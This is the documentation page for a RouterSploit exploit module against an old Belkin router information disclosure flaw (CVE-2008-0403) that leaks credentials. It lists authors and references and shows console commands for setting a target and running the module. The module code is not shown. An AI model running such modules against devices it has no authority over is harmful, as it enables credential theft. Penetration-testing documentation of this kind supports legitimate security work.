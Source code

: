 # Belkin G Info Disclosure

## Description
Module exploits Belkin Wireless G Plus MIMO Router F5D9230-4 information disclosure vulnerability which allows fetching sensitive information such as credentials.

## Authors
* DarkFig # vulnerability discovery
* Marcin Bury <marcin.bury[at]reverse-shell.com> # routersploit module

## References
* [http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-0403](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-0403)
* [https://www.exploit-db.com/exploits/4941/](https://www.exploit-db.com/exploits/4941/)

## Vulnerable devices
* Belkin G

## Usage
```
rsf > use exploits/belkin/g_plus_info_disclosure
rsf (Belkin G Info Disclosure) > show options

Target options:

   Name       Current settings     Description
   ----       ----------------     -----------
   target                          Target address e.g. http://192.168.1.1
   port       80                   Target Port


rsf (Belkin G Info Disclosure) > set target 192.168.1.1
[+] {'target': '192.168.1.1'}
rsf (Belkin G Info Disclosure) > run
[*] Running module...
```
